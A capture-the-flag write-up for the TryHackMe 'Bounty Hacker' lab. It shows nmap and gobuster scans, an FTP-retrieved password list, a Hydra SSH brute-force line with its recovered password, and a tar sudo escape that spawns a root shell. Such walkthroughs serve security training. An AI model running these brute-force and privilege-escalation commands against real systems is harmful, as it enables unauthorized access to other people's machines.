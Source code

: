# [Bounty Hacker THM Room](https://tryhackme.com/room/cowboyhacker)
## Scanning
### Nmap
```python
nmap -sC -sV -oN nmapInitial [ip]
```

```python
# Nmap 7.60 scan initiated Mon Oct 23 17:29:25 2023 as: nmap -sC -sV -oN nmapInitial target-ip
Nmap scan report for ip-10-10-76-21.eu-west-1.compute.internal (target-ip)
Host is up (0.00028s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.17.165
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:F5:A8:26:B0:43 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 17:29:53 2023 -- 1 IP address (1 host up) scanned in 28.09 seconds
```

### Gobuster
```
gobuster dir -u http://[ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/23 17:30:59 Starting gobuster
===============================================================
/images (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/23 17:31:25 Finished
===============================================================
```

### Netcat
#### Banner Grabbing
```
nc -vn [ip] 21
```

---
## Enumeration
### Port 80
- When we visit the webpage through our browser, we are greeted with the following:

![Port 80 Bounty Hacker](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/b7d0b1be-c73e-4264-8a3b-f72818e8d1c2)


- After doing a quick Gobuster scan, we can see that there is a `/images` directory. However, after further enumeration, it doesn't seem to provide us with more information. 

### Port 21
- Anonymous FTP login is enabled. Once connected, we can see two `.txt` files that could be useful. Use the `get` command to pull down the `locks.txt` and `tasks.txt` files. 
```python
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (5.7458 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.07 secs (1.0093 kB/s)
ftp> 
```

- `locks.txt`
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
- This looks like a potential password list that could come in handy for brute forcing later. 

- `task.txt`
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
- Lin could be a potential username we could use to brute for the SSH or FTP service that is open on the machine. 

### Hydra
- We can use the following syntax to try and brute force SSH login with the password list and username we found:
```
hydra -l lin -P locks.txt ssh://target-ip
```

- We are returned the following output with a match for credentials that will allow us to log in under the Lin user:
```python
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-10-23 17:45:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://target-ip:22/
[22][ssh] host: target-ip   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2023-10-23 17:46:02
```

---
## System Hacking
- Using the user/password combination we found with Hydra, we can log in via SSH. This will give us the user flag.

---
## Privilege Escalation
- Now that we have logged into the Lin user, let's look at what she can do with `sudo` permissions. 
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- We can see that the Lin user can run `/bin/tar` as root. We can look this up using GTFOBins. When we do, we can find the following syntax to spawn a root shell:
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Now that we have root permissions, we can grab the `root.txt` flag on the `root` desktop.
- 
